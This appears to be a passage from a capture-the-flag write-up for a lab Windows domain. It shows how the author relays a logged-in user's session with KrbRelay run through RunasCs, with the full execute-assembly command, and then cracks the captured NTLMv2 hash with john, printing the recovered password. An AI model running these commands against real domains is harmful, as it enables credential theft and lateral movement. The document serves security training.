




## Entry

I’m going to abuse the logged in session by TBrady by triggering an authentication back to my box and relaying it to dump a hash. I did something similar in Shibuya from Vulnlab but there I got the administrator account, which allowed me to just add an admin user and be done. Here I’ll be targeting the TBrady user, so what I can get via relay is more limited. There is 2 way to do it but im gonna use krbrelayx

[KrbRelay](https://github.com/cube0x0/KrbRelay)




its actually show us how to use its so im gonna use wtih RunAsCs but just has to upload KrbRelay i know its not good gor OPSEC but there is nothing we can do

u can find https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/KrbRelay.exe krbrelayx here btw

```sh
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/_RunasCs.exe x x -l 9 "C:\programdata\KrbRelay.exe -session 1 -clsid 0ea79562-d4f6-47ba-b7f2-1e9b06ba16a4 -ntlm"
```
but this defeats the whole purpose since you have krbrelay on disk – instead use runascs to run another beacon with an interactive logon and run krbrelay using the new beacon



and now we can run KrbRelay directly




and yeah its crackable

```sh
➜  rebound john tbrady_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
543BOMBOMBUNmanda (tbrady)  
```
